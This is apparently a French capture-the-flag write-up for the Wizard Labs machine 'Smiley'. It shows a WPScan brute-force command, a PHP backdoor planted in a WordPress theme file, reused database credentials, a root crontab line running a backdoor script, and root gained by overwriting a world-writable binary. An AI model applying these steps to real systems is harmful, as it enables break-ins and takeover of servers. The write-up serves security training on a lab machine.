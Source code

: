 ```yaml
---
title: Solution du CTF Smiley de Wizard Labs
tags: [CTF, WizardLabs]
---
```


Nitro
-----

[Wizard Labs](https://labs.wizard-security.net/) est une plateforme de CTF similaire à *HackTheBox* qui permet d'accéder via VPN à un réseau de machines vulnérables.  

Ici c'est l'occasion de s'attaquer à *Smiley*, l'une des machines qui a un niveau de difficulté de 3 sur 10.  

Gathering
---------

Les services accessibles sur la machine sont caractéristiques d'une machine Linux : ssh, rpcbind et un Apache, tous sur leurs ports habituels.  

Le site web renvoie un *Wordpress* géré par un certain *smiley* :  

![Wizard Labs CTF Smiley wordpress site](/assets/img/htb/smiley_wordpress.png)

Je m'empresse d'utiliser [WPscan](https://wpscan.org/) pour énumérer la version de Wordpress et les plugins installés. Cela n'a rien remonté d'intéressant donc on va s'intéresser aux utilisateurs :  

```
$ wpscan --url http://10.1.1.42/ -e u1-100 -P top500.txt
[+] Enumerating Users
 Brute Forcing Author IDs - Time: 00:00:01 <=================> (100 / 100) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] smiley
 | Detected By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - smiley / music                                                                                                                                                                    
Trying smiley / nathan Time: 00:00:25 <=================> (325 / 325) 100.00% Time: 00:00:25

[i] Valid Combinations Found:
 | Username: smiley, Password: music
```

Ici j'ai utilisé une wordlist contenant les 500 mots de passe les plus utilisés. On peut trouver des listes de ce site sur Github. *Ncrack* dispose d'une liste similaire [qui contient 5000 passwords](https://github.com/nmap/ncrack/blob/master/lists/top50000.pwd).  

Ces identifiants permettent donc d'accéder à la partie admin du site en se rendant sur */wp-admin*. Dans une situation comme celle-ci on peut installer un module Wordpress qui nous facilite la vie comme pour le [CTF Basic Pentesting: 1]({% link _posts/2018-02-05-solution-du-ctf-basic-pentesting-1-de-vulnhub.md %}) ou bien aller modifier un script PHP d'un thème existant dans *Appearance > Editor* (*footer.php* par exemple).  

![Wizard Labs CTF Smiley wordpress theme edit backdoor](/assets/img/htb/smiley_wp_edit.png)

Via une backdoor PHP insérée dans le script on peut exécuter des commandes sur le système en tant que *www-data* (pas vraiment de surprises).  

Le système est *Linux smiley 3.16.0-6-586 #1 Debian 3.16.56-1 (2018-04-28) i686 GNU/Linux*.  

On note dans */etc/passwd* la présence d'un utilisateur nommé *mike* d'UID 1000.  

Parmi les fichiers qu'il possède on trouve */var/tmp/binary\_as\_root* qui d'après les chaînes présentes dans ce binaire ELF semble être une copie de bash ou d'un autre shell...  

Malgré le nom donné à l'exécutable ce dernier n'est pas setuid et ne dispose pas non plus de [capabilities](https://linux.die.net/man/7/capabilities)...  

PrivEsc
-------

Dans le fichier de configuration de Wordpress on trouve le mot de passe permettant l'accès au MySQL.  

Ça semble inutile de fouiller dans la base *Wordpress* étant donné qu'on dispose du mot de passe de *smiley* mais il s'avère que le mot de passe ci-dessous permette l'accès SSH avec le compte *mike*, de quoi obtenir un shell digne de ce nom :)   

```php
/** The name of the database for WordPress */
define('DB_NAME', 'wpdatabase');

/** MySQL database username */
define('DB_USER', 'wpuser');

/** MySQL database password */
define('DB_PASSWORD', 'Il0veW0rdpress');
```

Dans le dossier personnel de l'utilisateur on trouve un binaire setuid root :  

```
-rwsr-xr-x 1 root root 7332 Dec 27 06:03 /home/mike/listwww
```

Ce dernier a un fonctionnement que l'on peut deviner simplement en appliquant la commande strings dessus :  

```
/lib/ld-linux.so.2
libc.so.6
_IO_stdin_used
setreuid
printf
system
__cxa_finalize
__libc_start_main
GLIBC_2.1.3
GLIBC_2.0
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
UWVS
[^_]
listing /var/www/html
sleep 3
/bin/ls /var/www/html
```

Il effectue donc un *setreuid(0)* avec de lancer deux commandes bash, la première étant une fonction builtin (sleep), l'autre */bin/ls* avec le path complet...  

Ca ne semble pas laisser trop de possibilités à l'exploitation (jouer sur les PATHs et la recherche des exécutables par le binaire) mais avec [ShellShock](https://en.wikipedia.org/wiki/Shellshock_%28software_bug%29) sait-on jamais.  

J'ai donc utilisé [bashcheck](https://github.com/hannob/bashcheck) pour tester la présence de la vulnérabilité bash mais il m'a dis... nope  

```
mike@smiley:~$ ./bashcheck
Testing /bin/bash ...
Bash version 4.3.30(1)-release

Variable function parser pre/suffixed [%%, upstream], bugs not exploitable
Not vulnerable to CVE-2014-6271 (original shellshock)
Not vulnerable to CVE-2014-7169 (taviso bug)
Not vulnerable to CVE-2014-7186 (redir_stack bug)
Test for CVE-2014-7187 not reliable without address sanitizer
Not vulnerable to CVE-2014-6277 (lcamtuf bug #1)
Not vulnerable to CVE-2014-6278 (lcamtuf bug #2)
```

J'ai aussi testé la faille XTRACE/PS4 utilisée pour le [CTF /dev/random: k2]({% link _posts/2018-03-13-Solution-du-CTF-devrandom-k2-de-VulnHub.md %}) sans plus de succès.  

La machine a une autre particularité qui ne peux pas échapper à des yeux avisés :  

```
-rwxrwxrwx 1 root root  822 Sep  5 05:29 /etc/crontab
```

Mais j'ai beau eu rajouter une ligne pour faire exécuter un script toutes les minutes :  

```
*/1 * * * * root /tmp/backdoor.py
```

... rien ne se passait :-|  

L'autre point inhabituel sur cette machine c'est que de nombreux binaires classiques sont word-writables...  

Du coup j'ai ressorti le script que j'avais fait pour le [CTF Homeless]({% link _posts/2018-02-23-Solution-du-CTF-Homeless-de-VulnHub.md %}) qui surveille la liste des processus lancés sur le système histoire de voir de bons candidats à la réécriture.  

Le script montre que les taches CRON sont bien lancées mais bizarrement pas la nôtre :(  

```
6028 root /usr/sbin/CRON -f
6029 root /bin/sh -c test -x /etc/init.d/anacron && /usr/sbin/invoke-rc.d anacron start >/dev/null
6031 root /bin/sh -c test -x /etc/init.d/anacron && /usr/sbin/invoke-rc.d anacron start >/dev/null
6038 root /bin/sh /usr/sbin/invoke-rc.d anacron start
6040 root xargs
6041 root xargs
6044 root /bin/sh /usr/sbin/invoke-rc.d anacron start
6049 root /bin/sh /usr/sbin/invoke-rc.d anacron start
```

```
13317 root /usr/sbin/CRON -f
13319 root /bin/sh -c   [ -x /usr/lib/php5/sessionclean ] && /usr/lib/php5/sessionclean
13320 root /bin/sh -e /usr/lib/php5/sessionclean
13321 root /bin/sh -e /usr/lib/php5/sessionclean
13322 root sort -rn -t: -k2,2
13323 root sort -u -t: -k 1,1
13324 root /bin/sh -e /usr/lib/php5/sessionclean
13326 root /bin/sh -e /usr/lib/php5/sessionclean
```

Pas bien grave puisque j'ai choisi d'écraser le binaire *sort* par mon script Python initial qui m'a donné un accès root plusieurs minutes plus tard ([voir le Github d'infodox](https://github.com/infodox/python-pty-shells) pour des shells sympas en Python) :  

```
root@smiley:~# id
uid=0(root) gid=0(root) groups=0(root)
root@smiley:~# cd /root
root@smiley:~# ls -al
total 40
drwx------  5 root root 4096 Jun 15  2018 .
drwxr-xr-x 21 root root 4096 May  4  2018 ..
-rw-------  1 root root   70 Dec 27 06:20 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-------  1 root root  663 May 10  2018 .mysql_history
-rw-r--r--  1 root root  140 Nov 19  2007 .profile
-rwx------  1 root root   33 May 10  2018 root.txt
drwxr-xr-x  3 root root 4096 May  4  2018 .vagrant
drwxr-xr-x  7 root root 4096 May  4  2018 .vagrant.d
drwx------  2 root root 4096 May  4  2018 .VirtualBox
root@smiley:~# cat root.txt
a16c3--- snip ---60f2b9b
root@smiley:~# cd /home/mike
root@smiley:/home/mike# ls
listwww  user.txt
root@smiley:/home/mike# cat user.txt
b075f--- snip ---88379
```

That's it
---------

Done ! On était dans de l'exploitation Linux très classique : énumération, brute-force puis escalade de privilège par écrasement d'un binaire ou accès à la crontab.  


*Published November 17 2020 at 13:44*
